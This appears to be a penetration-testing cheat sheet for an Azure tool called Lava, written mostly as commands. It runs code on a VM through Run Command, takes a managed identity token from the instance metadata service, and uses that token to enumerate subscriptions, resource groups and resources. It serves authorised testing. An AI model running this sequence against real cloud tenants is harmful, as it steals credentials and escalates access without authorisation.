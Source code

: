 - Use CLI to login prior to running Lava
	- `az login`
	- `python3 lava.py`
	- `whoami` - confirm authentication
- Determine if any VM in the subscription is associated with a privileged managed identity
	- `exec vm_list_privileged`
- Use Run Command (as a Contributor) - Get Managed Identity access token
	- `exec vm_rce -rgrp PENTEST-RG -vm_name linuxvm01`
		- Non-interactive shell
	- ` curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com' -H Metadata:true`
	- Copy token from previous command, exit Lava, and run commands against the resource manager with elevated privilege
		- `TOKEN=<ACCESS_TOKEN_FROM_PREVIOUS_STEP>`
		- Get a list of subscriptions
			- `curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?api-version=2020-01-01 | jq`
		- Store subscription ID in a variable
			- `SUB_ID=$(curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?apiversion=2020-01-01 | jq -r .value[].subscriptionId)`
		- Get a list of resource groups
			- `curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resourcegroups?api-version=2019-10-01 | jq`
		- Get a list of resources
			- `curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resources?api-version=2019-10-01 | jq`
